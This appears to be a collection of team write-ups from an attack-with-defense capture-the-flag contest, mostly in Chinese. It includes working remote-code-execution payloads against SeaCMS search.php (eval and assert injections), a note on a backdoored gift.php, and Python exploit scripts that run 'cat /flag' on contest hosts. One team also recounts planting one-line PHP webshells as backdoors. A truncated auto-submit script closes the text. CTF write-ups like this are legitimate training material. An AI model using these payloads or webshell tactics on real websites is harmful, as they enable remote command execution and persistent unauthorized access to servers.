 ```yaml
---
title: awd
tags:
---
```


awd()

```python
//rois_1
海洋cms /search.php?searchtype=5&tid=&area=eval($_POST[cmd])
两斤cms /gift.php 自带后门joomla /bak/ 旧版本pma
import requests
def exp(ip):    
  r = requests.get('http://%s:8084/gift.php?hello=cat+/flag>data/sqlbackup/1.txt'%ip)    
  r = requests.get('http://%s:8084/data/sqlbackup/1.txt'%ip)    
  return r.content
if __name__ == '__main__':    
  exp('172.16.5.14')
  -------
import requests, re
def exp(ip):    
  p = {}    
  r = requests.get('http://'+ip+':8083/search.php?searchtype=5&tid=&area=eval($_SERVER[HTTP_C])',headers={'C':'system("cat /flag");die();'},proxies=p)    
  flag = r.content    
  return flag
if __name__ == '__main__':    
  exp('172.16.5.24')
  
//rois_2
又见海洋cms，记得search.php有问题可以rce，找了下可以利用。写个exp直接脚本自动化攻击提交
//rois_3
Seacms /search.php?searchtype=5&tid=0&year=23334444);assert($_POST[aa]);//
[记得就这些了，不知道有没有少写]
```

```
mr.flag
前期上去本来想要做加固，结果发现没办法写文件，还以为要提权弄了好久，浪费了好久。后来扫描到8084有编辑器上传漏洞，而且还能回显地址，所以就上传了一句话批量管理，然后给自己也传了个加强版本的一句话作为管理后门。后来发现有人在我们自己的服务器上传了catflag的php来直接用网页获得flag，然后我们也都这么干了，在Firefox上面开了一整排的flag页面手动刷新和提交，因为不会编程2333333.

快结束的时候把提交flag的事情交给队友，我还测试了其他网页后台，一个是有弱口令，一个是海洋的有命令执行漏洞。感觉这回第一次玩AWD还是有点慌乱的。赛前以为是一台防守机，而且有比较高的权限，虽然做了准备但是一到比赛开始发现自己的策略一开始就不能用了。不过还是学到了很多。到比赛后才知道原来网站下有1.txt文件，可以访问获取所以就算把漏洞上传的堵上了还是能被拿到flag的。
```

```python
//Ph0en1x
search.php中存在漏洞，使用payload
http://172.16.5.13:8083/search.php?searchtype=5&tid=&area=eval($_POST[a])
直接获得一个一句话木马，然后用py脚本post
a=system('cat /flag');
即可反弹flag。
自动提交脚本
#encoding=utf8
import requests
import json
while 1:
    for i in xrange(1, 37):
        try:
            print str(i) + ':',
            if i == 12:
                continue
```